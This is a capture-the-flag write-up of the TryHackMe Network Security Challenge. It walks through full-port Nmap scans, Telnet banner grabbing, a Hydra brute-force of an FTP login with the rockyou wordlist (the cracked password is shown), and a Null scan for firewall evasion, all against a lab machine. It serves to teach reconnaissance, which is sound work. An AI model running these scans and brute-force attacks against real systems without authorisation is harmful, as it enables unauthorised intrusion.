

# [TryHackMe](https://tryhackme.com/): [Network Security Challenge](https://tryhackme.com/room/netsecchallenge)

**Level:** Intermediate

**Category:** Network

**Focus:** Network Reconnaissance and Hydra

## Challenge 1 & 2

I used Nmap to run a stealthy scan across all ports to find open services, which showed the highest open port under 10,000 is an HTTP proxy and another unknown service is running above 10,000.

`sudo nmap -sS -p- -Pn 10.112.187.83`

Result: 
```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
ANSWER/tcp open  http-proxy
ANSWER/tcp open  unknown
```

## Challenge 3

I connected to the HTTP service on port 80 using Telnet and sent a `GET / HTTP/1.1` request to grab the headers, revealing the server is lighttpd and hiding the first flag.

`telnet 10.112.187.83 80`

```HTTP
HTTP/1.1 400 Bad Request
Content-Type: text/html
Content-Length: 345
Connection: close
Date: Wed, 11 Mar 2026 12:16:23 GMT
Server: lighttpd THM{FLAG1}

<?xml version="1.0" encoding="iso-8859-1"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
         "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
 <head>
  <title>400 Bad Request</title>
 </head>
 <body>
  <h1>400 Bad Request</h1>
 </body>
</html>
Connection closed by foreign host.

```

## Challenge 4

I performed banner grabbing on the SSH port using Telnet to find the service version and the second flag.

`telnet 10.112.187.83 22`

```
┌──(kali㉿kali)-[~]
└─$ telnet 10.112.187.83 22
Trying 10.112.187.83...
Connected to 10.112.187.83.
Escape character is '^]'.
SSH-2.0-OpenSSH_8.2p1 THM{FLAG2}
```

## Challenge 5

Because the port scan showed 10021 as open, I connected to it with Telnet and identified it as a vsFTPd server.

`telnet 10.113.153.179 10021`


```
┌──(kali㉿kali)-[~]
└─$ telnet 10.113.153.179 10021         
Trying 10.113.153.179...
Connected to 10.113.153.179.
Escape character is '^]'.
220 (vsFTPd 3.X.X)
```

## Challenge 6

After using Hydra with the rockyou wordlist to brute-force the FTP logins, I logged in as 'quinn' and downloaded the `ftp_flag.txt` file.

`hydra -l quinn -P /usr/share/wordlists/rockyou.txt ftp://10.113.153.179:10021 -v -t 64`

```
[VERBOSE] Disabled child 63 because of too many errors
[10021][ftp] host: 10.113.153.179   login: quinn   password: andrea
```

```
ftp> type ascii
200 Switching to ASCII mode.
ftp> ls
229 Entering Extended Passive Mode (|||30973|)
150 Here comes the directory listing.
-rw-rw-r--    1 1002     1002           18 Sep 20  2021 ftp_flag.txt
226 Directory send OK.
ftp> open ftp_flag.txt
Already connected to 10.113.153.179, use close first.
ftp> get ftp_flag.txt
local: ftp_flag.txt remote: ftp_flag.txt
229 Entering Extended Passive Mode (|||30541|)
150 Opening BINARY mode data connection for ftp_flag.txt (18 bytes).
100% |***************************************************************************|    18      837.05 KiB/s    00:00 ETA
226 Transfer complete.
WARNING! 1 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
18 bytes received in 00:00 (0.31 KiB/s)
ftp> quit
```


```

┌──(kali㉿kali)-[~]
└─$ cat ftp_flag.txt 
THM{FLAG3}
```
## Challenge 7

I ran a Null scan with Nmap to test the firewall and see how it filters packets.

`nmap -sN 10.113.153.179`


## Summary

In this room, I practiced network reconnaissance, bypassing network IDS, and brute-forcing passwords.

---
